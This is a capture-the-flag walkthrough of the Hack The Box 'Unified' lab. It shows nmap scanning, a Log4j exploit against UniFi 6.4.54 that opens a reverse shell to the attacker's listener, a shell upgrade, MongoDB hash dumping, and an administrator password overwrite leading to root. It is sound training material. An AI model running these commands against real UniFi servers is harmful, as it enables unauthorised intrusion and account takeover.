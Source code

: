 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Unified

## Summary

Part of Starting Point's Tier 2 boxes, [Unified](https://app.hackthebox.com/starting-point) revolves around exploiting the **Log4j vulnerability**. Securing the initial foothold entails identifying the application's version through meticulous **enumeration of the web server**. Subsequently, **leveraging a readily available** [**PoC**](#user-content-fn-1)[^1] allows us to gain access to the application using the `administrator` account. Further reconnaissance within the site exposes **plaintext SSH credentials**, allowing us to root the box.

<table><thead><tr><th width="88" align="right">Step</th><th width="249">Action</th><th width="124">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td>Browser</td><td>Web app's version</td></tr><tr><td align="right">2</td><td>Researching</td><td>Browser</td><td>Log4j vulnerability &#x26; <a data-footnote-ref href="#user-content-fn-2">PoC</a></td></tr><tr><td align="right">3</td><td>Using <a data-footnote-ref href="#user-content-fn-3">PoC</a></td><td><a data-footnote-ref href="#user-content-fn-4">PoC</a></td><td>Foothold</td></tr><tr><td align="right">4</td><td>Updating admin's password</td><td><a href="https://linux.die.net/man/1/mongo">mongo</a></td><td>Web application credentials</td></tr><tr><td align="right">5</td><td>Web server enumeration</td><td>Browser</td><td>Privilege escalation</td></tr></tbody></table>

## Recon

### Port Scan

As always, let's start with a port scan. For efficiency, we will run a fast (`-T5 --min-rate 10000`) all-ports (`-p-`) scan first to find out which of them are open (`-open`), and then we will do a version scanning (`-sV`) as well as use Nmap's default scripts (`-sC`) against open ports only.

{% code overflow="wrap" %}
```bash
# Scanning all ports at maximum speed
$ sudo nmap 10.129.158.126 -T5 --min-rate 10000 -open -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 17:37 BST
Nmap scan report for 10.129.158.126
Host is up (0.038s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
8443/tcp open  https-alt
8843/tcp open  unknown
8880/tcp open  cddbp-alt

Nmap done: 1 IP address (1 host up) scanned in 8.10 seconds
# Version-scanning the specified ports at max speed plus using default scripts
$ sudo nmap 10.129.158.126 -T5 --min-rate 10000 -p 22,6789,8080,8443,8843,8880 -sC -sV
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
<SNIP>
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-title: Did not follow redirect to https://10.129.158.126:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
<SNIP>
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
8843/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
<SNIP>
8880/tcp open  cddbp-alt?
```
{% endcode %}

Based on Nmap's output, we can note some things down:

* There is an SSH port open (`22`) which might represent the way to access the box.
* There is an HTTP port (`8080`) which redirects to `https://10.129.158.126:8443/manage` which seems interesting.
* The port `6789` seems to be used for an application called [UniFi Mobile Speed Test](https://help.ui.com/hc/en-us/articles/218506997-UniFi-Network-Required-Ports-Reference).
* The last port (`8880`) is related with a protocol called [CDDB](https://linux.die.net/man/3/cddb) and it's also related with the [UniFi Network](https://help.ui.com/hc/en-us/articles/218506997-UniFi-Network-Required-Ports-Reference).

### Web Server Enumeration

By visiting the redirected URL we found above, we land on the UniFi login page which also include its version: `6.4.54` (Figure 1).

<figure><img src="../../../.gitbook/assets/unified_home.png" alt=""><figcaption><p>Figure 1: The UniFi login page along with its version.</p></figcaption></figure>

## Foothold

### Log4j

Since we know the application's version, we can check if any known vulnerability exists. Doing that, reveals the [Log4j vulnerability](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) (Figure 2.1) as well as a [GitHub repository ](https://github.com/puzzlepeaches/Log4jUnifi)with a PoC[^5] (Figure 2.2).

<figure><img src="../../../.gitbook/assets/unified_google.png" alt=""><figcaption><p>Figure 2: Rsearching known vulnerabities for <code>UniFi 6.4.54</code>.</p></figcaption></figure>

The [SprocketSecurity article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) includes both an [exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#exploitation) and a [post-exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitation) route, but let's first try the PoC as it involves less steps. By opening a listener (Figure 3.1) and following the PoC's execution instructions (Figure 3.2), we indeed achieve RCE[^6] and secure our foothold (Figure 3.3).

```bash
# executing the PoC
sudo python3 exploit.py -u https://10.129.96.149:8443 -i 10.10.14.147 -p 1337
```

<figure><img src="../../../.gitbook/assets/unified_rce.png" alt=""><figcaption><p>Figure 3: Establishing our initial foothold.</p></figcaption></figure>

### Shell Upgrade

Before searching for the flag, we can first upgrade our shell (Figure 4).

{% hint style="info" %}
Check more about shell upgrades [here](../../../tools/tools/shells/upgrade.md).
{% endhint %}

```bash
# Checking if script is available
which script
# Spawning the bash shell
script /dev/null -c /bin/bash
# Backgrounding the shell (CTRL+Z)
^Z
# Checking the configurations of our local shell
echo $TERM && stty size
# Disabling echo, passing I/O straight through, and foregrounding the shell
stty raw -echo; fg
# Setting terminals dimensions
stty rows 51 cols 209
# Exproting terminal
export TERM=xterm
```

<figure><img src="../../../.gitbook/assets/unified_shell_upg.png" alt=""><figcaption><p>Figure 4: Upgrading our shell with <code>script</code>.</p></figcaption></figure>

We can now read the `user.txt` flag within the home directory of the sole user of the box.

```bash
# Checking users
unifi@unified:/unifi/data$ ls /home
michael
# Reading the user flag
unifi@unified:/unifi/data$ cat /home/michael/user.txt
6ce<REDACTED>127
```

## Privilege Escalation

### Mongodb Exploitation

The [post-exploitation part](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationcrackinghashes) of the article refers to a mongodb DBMS[^7] from which we can dump password hashes from. Let's check if we can do that (Figure 5).

```bash
# Dumping the password hashes
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

<figure><img src="../../../.gitbook/assets/unified_dump.png" alt=""><figcaption><p>Figure 5: Dumping hashes from the mongodb database.</p></figcaption></figure>

Next, according to the [article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationshadowadmin), we can encrypt a new password (Figure 6.1) and use it to change the `administrator`'s password (Figure 6.2), so we can then use it to log in into the UniFi portal as a privileged user (Figure 7).

{% code overflow="wrap" %}
```bash
# Encrypting the new password
mkpasswd -m sha-512 Password123!
# Changing the administrator's password
mongo --port 27117 ace --eval 'db.admin.update({"_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$Zpy/bK4oaMXbjkwG$gPVsT76.dDkLpzgvEZm39v2kvkqfytwFzuzOHOW5MmkgFtN9UXDbg0FZ58hckZEq2g83mE9bWNqXDi6itVvd91"}})'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/unified_change_pass.png" alt=""><figcaption><p>Figure 6: Changing the <code>administrator</code>'s password.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/unified_admin_login.png" alt=""><figcaption><p>Figure 7: Logging in as <code>administrator</code>.</p></figcaption></figure>

### UniFi Enumeration

By enumerating the UniFi portal, we can find the `root`'s plaintext password (Figure 8) which we can use right away and read the `root.txt` flag 🚩 (Figure 9).

<figure><img src="../../../.gitbook/assets/unified_root_pass.png" alt=""><figcaption><p>Figure 8: Enumerating the <code>root</code>'s SSH password.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/unified_root.png" alt=""><figcaption><p>Figure 9: Reading the root flag.</p></figcaption></figure>

[^1]: Proof of Concept

[^2]: Proof of Concept

[^3]: Proof of Concept

[^4]: Proof of Concept

[^5]: Proof of Concept

[^6]: Remote Command Execution

[^7]: Database Management System
